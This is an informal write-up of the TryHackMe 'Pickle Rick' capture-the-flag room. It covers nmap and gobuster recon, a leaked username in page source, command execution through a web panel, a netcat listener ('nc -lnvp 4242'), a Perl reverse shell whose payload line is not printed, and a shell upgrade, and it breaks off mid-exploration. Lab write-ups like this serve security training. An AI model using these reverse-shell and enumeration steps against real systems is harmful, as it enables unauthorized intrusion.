 # Pickle Rick

# 1. Recon

lets look at the website first. Okay. Nothing special. Looking at the source we have something in the comments:
```

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

```

nice.
lets try running gobuster meanwhile, along with nmap.

```
❯ nmap -script=default -sV -A -T4 10.10.106.44
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-17 21:19 EST
Nmap scan report for 10.10.106.44
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:a3:87:da:73:ba:1a:d5:e1:22:6a:2a:8b:e5:47:be (RSA)
|   256 b7:59:da:b6:2a:7f:b4:2b:89:f5:b1:13:76:ef:a6:d7 (ECDSA)
|_  256 fc:8d:ba:fa:d8:72:41:b7:d5:1b:c7:06:0c:ca:a4:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.35 seconds
```


```
❯ gobuster dir -u 10.10.106.44 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "html,php,txt"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.106.44
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2021/02/17 21:20:31 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
```

okay. very interesting stuff. let's try it one by one.

`assets/` show

`robots.txt` shows `Wubbalubbadubdub` :D :D :D

interestingly, when i go to `portal.php`, it redirects me to `login.php`. Maybe there is something there? lets see it in burpsuite.

Nothing. a simple redirect. Okay so lets only look at `login.php`. Maybe there is an XSS attack we care looking at ... nope. tried and didnt work.

But what if ... we have both the username and the password already with us? :D

# 2. Foothold
So we have a command pannel and we can execute stuff. hmmm.

And, we are at the `portal.php` page. gg.

`ls`
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

so denied is ... well something we should expect to pop onto us as an error soon.

It also looks like the `cat` command is disabled. So, lets try alternatives ...
`less` works!

`less clue.txt`: `Look around the file system for the other ingredient.`

okay ...

`less Sup3rS3cretPickl3Ingred.txt`: `mr. meeseek hair`

ew, but yay!


Okay. so now i'm trying to `cd ..` but it doesn't wanna work. we did have the ssh port open, so ...

```
❯ ssh R1ckRul3s@10.10.106.44
The authenticity of host '10.10.106.44 (10.10.106.44)' can't be established.
ECDSA key fingerprint is SHA256:LWuQ+4VfPBKeYlbudgcUF9iFM6hG7u/vjzjziKLavsk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.106.44' (ECDSA) to the list of known hosts.
R1ckRul3s@10.10.106.44: Permission denied (publickey).
```

so first we need to put our public key in the list of ssh's `authorized_keys` file. But how do we get in ...?

Let's try settup up `nc` and get a bash reverse shell going on. Get your own ip by `❯ ifconfig tun0`. I'm taking the reverse shells from `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`

```
❯ nc -lnvp 4242
listening on [any] 4242 ...
```


hmm. bash gives nothing. 
let's try perl. 

# I'm IN!

So perl reverse shell works! Now, let's upgrade our shell by `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`


```
www-dataÄip-10-10-106-44:/home/rick$ whoami
whoami
www-data
```

exploring, we have:
```
www-dataÄip-10-10-106-44:/home/rick$ ls -la      
ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

```
www-dataÄip-10-10-106-44:/home/ubuntu$ ls -la
ls -la
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

some tryhackme bt. ill brb 
